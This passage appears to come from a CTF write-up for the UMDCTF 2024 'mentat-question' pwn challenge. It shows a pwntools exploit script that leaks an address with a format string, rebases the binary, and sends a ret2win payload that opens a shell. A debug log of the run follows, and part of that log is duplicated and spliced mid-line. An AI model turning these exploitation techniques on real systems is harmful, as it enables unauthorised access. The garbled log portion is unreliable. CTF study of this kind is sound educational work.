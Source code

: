 ```py {filename=exploit.py, linenos=table}
r.recvuntil(b"Was that a Yes ")
main_leak = eval(r.recv(14))

elf.address = main_leak - (0x55555555545c - 0x555555554000)
integer_overflow(first)

payload = flat({
    0x00: b"Yes",
    0x18: p64(elf.address + 0x101a), 
    0x20: elf.sym['secret']
})

r.sendlineafter(b"again?", payload)
r.interactive()

```

and we get a shell on the remote machine!

```shell
fooker@fooker:~/ctfs/umdctf2024/mentat-question$ python3 exploit.py REMOTE
[*] '~/ctfs/umdctf2024/mentat-question/mentat-question'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.umdctf.io on port 32300: Done
[DEBUG] Received 0x2f bytes:
    b'Hello young master. What would you like today?\n'
[DEBUG] Sent 0x9 bytes:
    b'Division\n'
[DEBUG] Received 0x30 bytes:
    b'Of course\n'
    b'Which numbers would you like divided?\n'
[DEBUG] Sent 0xd bytes:
    b'1\n'
    b'4294967296\n'
[DEBUG] Received 0x55 bytes:
    b'1\n'
    b'0\n'
    b'Oh, I was not aware we were using negative numbers!\n'
    b'Would you like to try again?\n'
[DEBUG] Sent 0xa bytes:
    b'Yes %11$p\n'
[DEBUG] Received 0x4d bytes:
    b'Was that a Yes 0x5556d27b945c I heard?\n'
    b'Oh, I was not aware we were using negative numbers!\n'
    b'Would you like to try again?\n'
[DEBUG] Sent 0x29 bytes:
    00000000  59 65 73 61  62 61 61 61  63 61 61 61  64 61 61 61  │Yesa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  1a 90 7b d2  56 55 00 00  │eaaa│faaa│··{·│VU··│
    00000020  d9 91 7b d2  56 55 00 00  0a                        │··{·    b'Oh, I was not aware we were using negative numbers!\n'
    b'Would you like to try again?\n'
[DEBUG] Sent 0x29 bytes:
    00000000  59 65 73 61  62 61 61 61  63 61 61 61  64 61 61 61  │Yesa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  1a 90 7b d2  56 55 00 00  │eaaa│faaa│··{·│VU··│
    00000020  d9 91 7b d2  56 55 00 00  0a                        │··{·│VU··│·│
    00000029
[*] Switching to interactive mode

[DEBUG] Received 0x33 bytes:
    00000000  57 61 73 20  74 68 61 74  20 61 20 59  65 73 61 62  │Was │that│ a Y│esab│
```